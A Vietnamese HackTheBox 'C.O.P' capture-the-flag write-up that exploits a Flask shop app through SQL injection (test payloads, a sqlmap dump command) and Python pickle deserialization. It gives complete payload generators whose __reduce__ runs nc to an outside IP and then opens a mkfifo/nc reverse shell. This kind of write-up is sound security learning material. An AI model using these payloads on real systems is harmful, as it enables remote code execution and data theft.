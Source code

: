 ```yaml
---
layout: post
title: HTB C.O.P Writeup
date: 2022-11-24
categories: ["hackthebox"]
---
```


# Phân Tích Code
Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Đây là mã nguồn được viết bằng Python và Flask. Tôi sẽ đọc tệp ```routes.py``` để biết thông tin đầu vào của trang web.

![](https://i.imgur.com/phZwpEK.png)

Ở đây mình thấy có 2 chức năng là homepage và viewpage. Trang homepage sẽ hiển thị tất cả các sản phẩm và trang viewpage sẽ hiển thị chi tiết từng sản phẩm. 

Hai chức năng query all_product và select_by_id ở trong class Shop trong file ```models.py```, mình sẽ kiểm tra 2 chức năng này.

![Imgur](https://i.imgur.com/DCB0srs.png)

Trong hàm select_by_id có truyền 1 biến product_id và biến này không được filter => điều này có thể dẫn đến lỗi SQL Injection. 

![Imgur](https://i.imgur.com/a2tiI4C.png)

Ngay cả trong hàm query_db cũng không được filter. 

# Khai Thác SQLi
Mình thử payload ```' or '1'='1``` và ```' or '1'='2```

![Imgur](https://i.imgur.com/efANYyE.png)

![Imgur](https://i.imgur.com/TUEMQpf.png)

Tiếp theo mình sẽ sử dụng sqlmap để thực hiện khai thác dump db.

```
python sqlmap.py -u http://localhost:8888/view/1 --random-agent --level=5 --risk=3 --dbms=mysql --dump
```

![Imgur](https://i.imgur.com/kuTmzc2.png)

Kết quả mình nhận được là dữ liệu đã bị encode dạng base64. 

=> Có vẻ như mình đã sai hay thiếu ở đâu đó.

# Tiếp Tục Phân Tích Code
Khi mình quay lại phân tích file ```routes.py``` thì mình mới để ý là dữ liệu hiển thị trong file ```item.html```

```python
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```

Nội dung của file ```item.html``` có 1 đoạn như thế này

```html
	<section class="py-5">
            <div class="container px-4 px-lg-5 my-5">
                <div class="row gx-4 gx-lg-5 align-items-center">
                    { set item = product | pickle }
                    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
                    <div class="col-md-6">
                        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
                        <div class="fs-5 mb-5">
                            <span>£{{ item.price }}</span>
                        </div>
                        <p class="lead">{{ item.description }}</p>
                    </div>
                </div>
            </div>
        </section>
```

Nội dung hiển thị ra được sử dụng hàm ```pickle``` để bảo vệ.

Và trong file ```app.py```, hàm sẽ được trả ra kết quả base64.

```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```

Và sau một thời gian tìm kiếm trên google và về hàm pickle. Mình nhận thấy rằng hàm này có thể RCE.

- [https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
- [https://docs.python.org/3/library/pickle.html ](https://docs.python.org/3/library/pickle.html)

# Exploit
Trước tiên, mình thử ```nc``` đến server của mình để xem nó có hoạt động hay không với payload:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("nc 103.68.192.239 8899")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Mở 1 port 8899 trên server với lệnh sau: ```nc -lnvp 8899```

Sau đó mình sử dụng burpsuite để thực hiện gửi payload lên ứng dụng web. 

![Imgur](https://i.imgur.com/OdzcERa.png)

Và mình nhận được 1 kết nối lên server.

![Imgur](https://i.imgur.com/43ZUklf.png)

Tiếp theo mình tạo một payload để thực hiện reverse shell về server của mình

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 103.69.195.239 8899 >/tmp/f")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Và send payload lên ứng dụng

![Imgur](https://i.imgur.com/QbxrAYV.png)

Sau đó mình có được shell và get flag

![Imgur](https://i.imgur.com/tb8HHve.png)


